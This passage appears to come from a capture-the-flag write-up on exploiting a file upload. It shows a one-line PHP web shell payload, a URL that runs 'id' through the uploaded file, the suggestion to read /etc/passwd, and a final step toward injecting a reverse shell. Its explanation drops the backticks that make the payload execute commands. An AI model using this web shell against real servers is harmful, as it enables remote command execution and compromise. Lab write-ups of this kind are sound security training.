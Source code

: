 
![image35](../resources/d1a74a0beb2e454da9c670a1e4f63d31.png)

- Now to access the file we need to go to:  
`http://bandit.escape/uploads/d97f005810ddf0a6af6468712f082ca3.php?0=id`


![image36](../resources/eaf02909f37b4a03b4dc699e8cf2d93e.png)

- This is because file got saved but it wasn't a .png so no extension got added. So we need to add .php again
- We also need to add the query parameter **?0=whatever we want** ,ie. id, hostname, cat /etc/passwd

- The way the payload \<?=\`\$\_GET\[0\]\`?\> works is:
  - **?0=id** is being passed as a query parameter in the URL
  - In the PHP code **\<?= \$\_GET\[0\] ?\>**, the **\$\_GET\[0\]** portion retrieves the value associated with the key 0 from the **\$\_GET** superglobal array
  - Because of how PHP handles query parameters, when you pass **?0=id**, PHP interprets 0 as a key in the **\$\_GET** array and id as its corresponding value
  - So, when you pass **?0=id**, the PHP code **\<?= \$\_GET\[0\] ?\>** fetches the value associated with the key 0 from the **\$\_GET** array, which is id


![image37](../resources/0068ad738bfd4b9289593a7f03d8cf2b.png)


![image38](../resources/f6b2c52174614436b5a294de5accc05d.png)

- Now we can inject a reverse shell into the query parameter (just choose the right one) and URL encode it:
